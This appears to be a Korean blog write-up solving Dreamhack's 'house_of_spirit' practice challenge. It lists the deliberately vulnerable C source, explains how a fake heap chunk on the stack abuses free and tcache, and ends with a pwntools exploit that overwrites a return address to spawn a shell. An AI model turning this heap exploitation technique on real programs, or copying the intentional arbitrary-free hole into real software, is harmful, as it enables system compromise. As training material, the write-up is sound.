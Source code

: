 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN house_of_spirit"
excerpt: "드림핵 포너블 house_of_spirit 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-02-26 15:00
---
```


얼떨결에 도전해본 4단계 문제이다. 취약점 이름은 제목과 같이 house_of_spirit 공격에 관한 내용이다. 문제를 보면 해당 취약점이 어떤 방식으로 터지는지에 대한 설명이 링크로 주어진다. [https://learn.dreamhack.io/16#96](https://learn.dreamhack.io/16#96)

해당 취약점을 간단히 설명하면, free함수는 할당된 메모리를 해제하는 함수이다. free함수를 통해 해제된 청크는 fastbin의 규칙 때문에 취약점으로 이어질수 있다. 가령 0x30의 메모리를 free하면 해당 청크는 fastbin 규약에 따라 메모리에서 해제된다. 해제된 메모리 정보를 tcache_entry에 저장한다. 이후 다시 0x30의 메모리를 할당 받으면 다른 힙 청크에서 일부를 할당하는 것이 아닌 tcache_entry에 등록되어 있는 동일한 사이즈의 청크를 이용하게 된다. 해당 취약점은 변수의 메모리 주소를 알고있다는 가정 하에 실제 청크의 형식을 변수 메모리에 구성하고 이를 해제 후 제 할당함으로 써 할당한 청크에 값을 쓰면 스택 영역을 덮어 씌울 수 있다.

해당 문제의 소스코드는 다음과 같다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char *ptr[10];

void alarm_handler() {
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
	execve("/bin/sh", NULL, NULL);
}

int main() {
	char name[32];
	int idx, i, size = 0;
	long addr = 0;

	initialize();
	memset(name, 0, sizeof(name));
	printf("name: ");
	read(0, name, sizeof(name)-1);

	printf("%p: %s\n", name, name);
	while(1) {
		printf("1. create\n");
		printf("2. delete\n");
		printf("3. exit\n");
		printf("> ");

		scanf("%d", &idx);

		switch(idx) {
			case 1:
				if(i > 10) {
					return -1;
				}
				printf("Size: ");
				scanf("%d", &size);

				ptr[i] = malloc(size);

				if(!ptr[i]) {
					return -1;
				}
				printf("Data: ");
				read(0, ptr[i], size);
				i++;
				break;
			case 2:
				printf("Addr: ");
				scanf("%ld", &addr);

				free(addr);
				break;
			case 3:
				return 0;
			default: 
				break;
		}
	}

	return 0;
}
```

바이너리의 진행 구조는 다음과 같다.
```
이름 입력 -> 이름 메모리 주소 출력 -> 각 매뉴에 따라 1번은 malloc을 통한 메모리 할당 -> 2번을 통해 free를 이용한 메모리 해제 -> 3번을 통해 return을 호출 후 종료
```

이름을 입력한 메모리의 주소를 알수 있다는 것이 매우 유효하다. 이 주소는 스택 영역에 있으며 이를 이용해 가짜 청크를 구성하고 해제한 가짜 청크만큼 다시 할당해 return영역을 덮어쓰면 익스플로잇에 성공할 것 같다.

문제를 풀기전에 청크의 구조를 알아보자.
```
     ________________________________
    |   prev_size   |      size      |   <- header[prev_size + size의 값이
    |--------------------------------|            32비트의 경우 8바이트(4 + 4),
    |                                |            64비트의 경우 16바이트(8 + 8)]
    |                                |
    |              data              |   <- 할당한 데이터 영역의 크기
    |                                |
    |                                |
    |________________________________|
```
위처럼 구조가 나열되어 있으며 64비트 환경에서 0x32크기의 힙을 할당받으면 해더 영역 0x10 과 데이터 영역 0x32가 더해진 0x42가 해더의 size에 쓰인다. prev_size는 이전 청크의 크기 값이다.


이 정보를 바탕으로 name 변수에 가짜 청크를 구성해보자. 헤더 영역만 잘 맞춰주면 free 함수가 청크로 인식해 사이즈 만큼 해제할 수 있을 것이다. prev_size는 0을 8바이트 만큼 넣고 size를 0x50만큼 입력한다. 이후 출력된 메모리 주소를 free 한다. 다만 힙을 한번 할당 해야지 tcache가 생성되므로 임의 크기의 힙을 한번 할당한다. 이후 출력된 메모리 주소 + 0x10의 주소를 free하면 name변수 주소로 청크가 0x50만큼 할당된다. 이후 임의 데이터로 채우고 return 주소가 들어있는 부분에 get_shell() 함수 주소를 넣으면 익스플로잇 할수 있다.

익스플로잇 코드는 다음과 같다.
```python
from pwn import *
context.update(arch='amd64', os='linux')

p = remote("host3.dreamhack.games", 9817);
#p = process("./oneshot", env={'LD_PRELOAD':'./libc.so.6'})
#p = process("./house_of_spirit")
#libc=ELF('./libc.so.6')

data = p64(0)+p64(0x50)
print(data)

p.sendafter(b"name: ", data)

leak = int(p.recvuntil(b":")[:-1], 16)
print(f"leak data : {hex(leak)}")

free_ptr = leak+0x10
print(f"free ptr : {hex(free_ptr)}")

p.sendlineafter(b"> ", str(1))
p.sendlineafter(b"Size: ", str(64))
p.sendlineafter(b"Data: ", b"A"*64)

p.sendlineafter(b"> ", str(2))
p.sendlineafter(b"Addr: ", str(free_ptr))

payload = b"A"*40+p64(0x400940)

p.sendlineafter(b"> ", str(1))
p.sendlineafter(b"Size: ", str(64))
p.sendlineafter(b"Data: ", payload)

pause()

p.sendlineafter(b"> ", str(3))

p.interactive()
```